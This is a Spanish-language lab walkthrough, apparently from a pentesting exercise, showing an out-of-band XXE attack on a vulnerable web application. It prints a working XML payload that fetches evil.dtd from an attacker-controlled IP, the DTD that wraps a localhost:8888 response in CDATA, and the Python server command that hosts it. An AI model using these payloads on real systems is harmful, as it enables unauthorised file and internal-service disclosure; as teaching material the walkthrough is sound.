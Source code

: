Enviaremos el siguiente fragmento XML a la aplicación web vulnerable:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

> \[Nota] Por favor, asegúrese de reemplazar la dirección IP en la carga útil anterior.

Antes de enviar la carga útil XXE anterior, guarde el siguiente fragmento como evil.dtd:

```
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Inicie un servidor HTTP basado en Python en el puerto 8080:

Mandar:

```
python3 -m http.server 8080
```

Información sobre la carga útil:

La primera carga útil (enviada a la aplicación web para su validación) cargaría el contenido del archivo evil.dtd desde la máquina atacante y, a continuación, el backend analizaría este archivo.

El archivo evil.dtd contiene la entidad que envía una solicitud a localhost:8888 y el resultado está incrustado en la sección CDATA.

Información sobre CDATA:

```
CDATA sections can be used to "block escape" literal text when replacing 
prohibited characters with entity references is undesirable.
```

* Referencia: https://www.w3resource.com/xml/CDATA-sections.php

Algunos ejemplos de caracteres prohibidos son:

```
<
,
>
,
&
,
"
,
'
.

```
